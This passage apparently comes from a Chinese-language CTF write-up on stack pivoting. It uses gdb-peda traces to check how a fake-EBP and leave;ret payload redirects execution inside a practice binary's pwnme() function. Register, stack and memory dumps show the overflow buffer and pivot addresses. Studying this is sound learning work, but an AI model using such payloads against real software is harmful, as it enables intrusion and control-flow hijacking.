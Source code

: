 这里我们在 gdb 中验证一下，在 pwnme() 函数的 leave 处下断点：
```
gdb-peda$ b *0x0804889f
Breakpoint 1 at 0x804889f
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0xffe7ec68 --> 0xf755cf0c --> 0x0 
ESP: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EIP: 0x804889f (<pwnme+173>:    leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048896 <pwnme+164>:       call   0x80485b0 <fgets@plt>
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
=> 0x804889f <pwnme+173>:       leave  
   0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
0004| 0xffe7ec44 ('A' <repeats 36 times>, "\f\317U\367\237\210\004\b\n")
0008| 0xffe7ec48 ('A' <repeats 32 times>, "\f\317U\367\237\210\004\b\n")
0012| 0xffe7ec4c ('A' <repeats 28 times>, "\f\317U\367\237\210\004\b\n")
0016| 0xffe7ec50 ('A' <repeats 24 times>, "\f\317U\367\237\210\004\b\n")
0020| 0xffe7ec54 ('A' <repeats 20 times>, "\f\317U\367\237\210\004\b\n")
0024| 0xffe7ec58 ('A' <repeats 16 times>, "\f\317U\367\237\210\004\b\n")
0028| 0xffe7ec5c ('A' <repeats 12 times>, "\f\317U\367\237\210\004\b\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804889f in pwnme ()
gdb-peda$ x/10w 0xffe7ec68
0xffe7ec68:     0xf755cf0c      0x0804889f      0xf755000a      0x00000000
0xffe7ec78:     0x00000002      0x00000000      0x00000001      0xffe7ed44
0xffe7ec88:     0xf755cf10      0xf655d010
gdb-peda$ x/10w 0xf755cf0c
0xf755cf0c:     0x00000000      0x080485f0      0x080488c0      0x0804a024
0xf755cf1c:     0x080488c4      0x08048571      0x000001f7      0x080488c7
0xf755cf2c:     0x080486a3      0x0000000a
```
执行第一次 leave;ret 之前，我们看到 EBP 指向 fake ebp，即 `0xf755cf0c`，fake ebp 指向 主payload 的 ebp，而在 fake ebp 后面是 leave;ret 的地址 `0x0804889f`，即返回地址。

执行第一次 leave：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0xf755cf0c --> 0x0 
ESP: 0xffe7ec6c --> 0x804889f (<pwnme+173>:     leave)
EIP: 0x80488a0 (<pwnme+174>:    ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```